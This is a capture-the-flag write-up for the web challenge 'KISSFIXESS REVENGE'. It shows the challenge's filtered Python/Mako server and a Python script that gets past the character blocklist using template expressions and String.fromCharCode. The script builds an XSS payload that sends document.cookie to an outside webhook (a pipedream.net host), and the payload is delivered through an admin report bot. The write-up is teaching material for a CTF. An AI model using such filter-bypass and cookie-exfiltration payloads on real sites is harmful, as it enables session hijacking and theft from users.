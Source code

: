 # 🏷️ KISSFIXESS REVENGE

**Category:** Web  
**Description:**  
> Okay, NOW ain't nobody gonna solve it.

For the revenge challenge there is not much changed but filtering got harder to bypass let's dig deeper.


This is the new app.py


```py
lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", name_to_display or "")
    template = Template(templ, lookup=lookup)
    tp = template.render(name_to_display=name_to_display, banned="&<>()", copyright="haha", help="haha", quit="haha")
    try:
        tp_data = tp.split("<div class=\"rainbow-text\">")[1].split("</div>")[0]
        if "." in tp_data or "href" in tp_data.lower():
            name = "Banned characters detected!"
            return name
    except IndexError:
        name = "Something went wrong!"
        return name

    return tp

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
    
    def do_POST(self):
        # Handle POST requests to report names
        if self.path == "/report":
            content_length = int(self.headers['Content-Length'])
            post_data = self.rfile.read(content_length)
            name = json.loads(post_data.decode('utf-8')).get("name", "")
            print(f"Received name: {name}")
            if name:
                print(f"Reported name: {name}")
                self.send_response(200)
                self.end_headers()
                self.wfile.write(b"Name reported successfully!")
                Thread(target=visit_url, args=(name,)).start()
            else:
                self.send_response(400)
                self.end_headers()
                self.wfile.write(b"Bad Request: No name provided.")
        else:
            self.send_response(404)
            self.end_headers()

def run_server(server_class=HTTPServer, handler_class=SimpleHTTPRequestHandler, port=8000):
    server_address = ("0.0.0.0", port)
    httpd = server_class(server_address, handler_class)
    print(f"Starting http server on port {port}...")
    print(f"Access the page at http://0.0.0.0:{port}")
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print("\nServer stopped.")
    finally:
        httpd.server_close()

if __name__ == "__main__":
    run_server()
```

As we can see now can't use the html encoding since # is blocked and it's not in the banned list.
What we can do is injecting script tag then use String.fromCharCode to decode that banned characters.

<br />


```py
def create_map(banned):
    return {
        "<": f"${{banned[1]}}",  
        ">": f"${{banned[2]}}",  
        "(": f"${{banned[3]}}",  
        ")": f"${{banned[4]}}",  
        "s": f"'+String['fromCharCode']${{banned[3]}}115${{banned[4]}}+'", 
        "l": f"'+String['fromCharCode']${{banned[3]}}108${{banned[4]}}+'",
        ".": f"'+String['fromCharCode']${{banned[3]}}46${{banned[4]}}+'",  
        "=": f"'+String['fromCharCode']${{banned[3]}}61${{banned[4]}}+'"  
    }

def encode_payload(payload, banned):
    mappings = create_map(banned)
    final_payload = ""
    for i in payload:
        final_payload += mappings.get(i, i)
    return final_payload

def wrap_payload(encoded_payload, banned):
    return f"${{banned[1]}}Script${{banned[2]}}{encoded_payload}${{banned[1]}}/Script${{banned[2]}}"

def generate_payload(payload, banned):
    encoded = encode_payload(payload, banned)
    return wrap_payload(encoded, banned)

banned = ["<", ">", "s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]

payload = "fetch('http://webhook/?q='+document['cookie'])"

final_payload = generate_payload(payload, banned)
print(final_payload)

```

<br />

Final payload:

```
${banned[1]}Script${banned[2]}fetch${banned[3]}'http'+String['fromCharCode']${banned[3]}115${banned[4]}+'://eogce8tgujfgk5f'+String['fromCharCode']${banned[3]}46${banned[4]}+'m'+String['fromCharCode']${banned[3]}46${banned[4]}+'pipedream'+String['fromCharCode']${banned[3]}46${banned[4]}+'net/?q'+String['fromCharCode']${banned[3]}61${banned[4]}+''+document['cookie']${banned[4]}${banned[1]}/Script${banned[2]}
```

reporting to admin

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/10.png'>

<br />

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/11.png'>

<br />


<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/ez-yann.gif" alt="Skeleton GIF" width="300" height="300">
